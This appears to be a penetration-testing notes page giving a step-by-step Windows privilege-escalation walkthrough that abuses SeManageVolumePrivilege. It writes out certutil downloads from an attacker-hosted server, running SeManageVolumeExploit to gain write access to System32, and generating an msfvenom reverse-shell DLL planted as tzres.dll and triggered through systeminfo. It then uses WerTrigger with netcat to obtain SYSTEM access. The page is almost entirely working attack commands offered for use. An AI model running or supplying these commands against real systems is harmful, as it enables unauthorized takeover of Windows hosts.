 ```yaml
---
legal-banner: true
---
```


### **STEP 1: CHECK CURRENT USER PRIVILEGES**

1.  Verify if current user has SeManageVolumePrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/153.png)


    **NOTE:** If it is not enabled, proceed to the next step to enable it.

### **STEP 2: ENABLE SETAKEOWNERSHIPPRIVILEGE (OPTIONAL)**

2.  Download the EnableAllTokenPrivs.ps1 script to enable SeManageVolumePrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/154.png)


    **NOTE:** Host the EnableAllTokenPrivs.ps1 script Using Python `python -m http.server 80`
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/155.png)


    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeManageVolumePrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/156.png)

    

### **DLL HIJACKING WITH MESTASPLOIT**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/157.png)


    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/SeManageVolumeExploit.exe SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/158.png)

    
3.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    ![](../../../img/Windows-Environment/159.png)

    
4.  Let's creat the .dll payload that will get us reverse shell. We will use msfvenom and name the payload tzres.dll.  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f dll -o tzres.dll`  
    
    ![](../../../img/Windows-Environment/160.png)


    **NOTE:** Host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
5.  Use the following certutil commands to download the payload to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/tzres.dll tzres.dll`  
    
    ![](../../../img/Windows-Environment/161.png)


    **NOTE:** After transferring `tzres.dll` to the target machine, run the following command to place it in the wbem directory:  
    `copy tzres.dll C:\Windows\System32\wbem\`
    
6.  With that in place, set up your netcat listener on port 1337 on your attacking machine.  
    `rlwrap -cAr nc -lnvp 1337`  
    
    ![](../../../img/Windows-Environment/162.png)


    **NOTE:** run `systeminfo` to trigger the payload
    

### **EXPLOIT WITH WERTRIGGER**

1.  To write any files in the C:\\ drive and that includes System32 we need to download SeManageVolumeExploit.exe and transfer it to target machine  
    `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`  
    
    ![](../../../img/Windows-Environment/163.png)


    **NOTE:** After the download complete, host the file using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
2.  After executing the exploit, we have gained write privileges to the `C:\Windows\System32\` folder.  
    
    ![](../../../img/Windows-Environment/164.png)

    
3.  Download the required exploit executables and DLL file using the commands provided below.  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/WerTrigger.exe`  
    `wget https://github.com/sailay1996/WerTrigger/raw/master/bin/phoneinfo.dll`  
    `wget https://raw.githubusercontent.com/sailay1996/WerTrigger/master/bin/Report.wer`  
    `cp /usr/share/windows-resources/binaries/nc.exe .`  
    
    ![](../../../img/Windows-Environment/165.png)


    **NOTE:** After the downloads are complete, host the files using a Python server to upload them to the target machine:  
    `python -m http.server 80`
    
4.  Use the following certutil commands to download the files to the target machine  
    `certutil -urlcache -f http://[IP-ADRESS]:80/WerTrigger.exe WerTrigger.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/phoneinfo.dll phoneinfo.dll`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/nc.exe nc.exe`  
    `certutil -urlcache -f http://[IP-ADRESS]:80/Report.wer Report.wer`  
    
    ![](../../../img/Windows-Environment/166.png)

    
5.  Copy `phoneinfo.dll` to `C:\Windows\System32\`, place `Report.wer` and `WerTrigger.exe` in the same directory, and then run `WerTrigger.exe`.  

    ![](../../../img/Windows-Environment/167.png)


    **NOTE:** WerTrigger.exe will not produce any output and will just wait for you to type the instructions you want to perform.
    
6.  We have system level access on the target machine!  
    
    ![](../../../img/Windows-Environment/168.png)
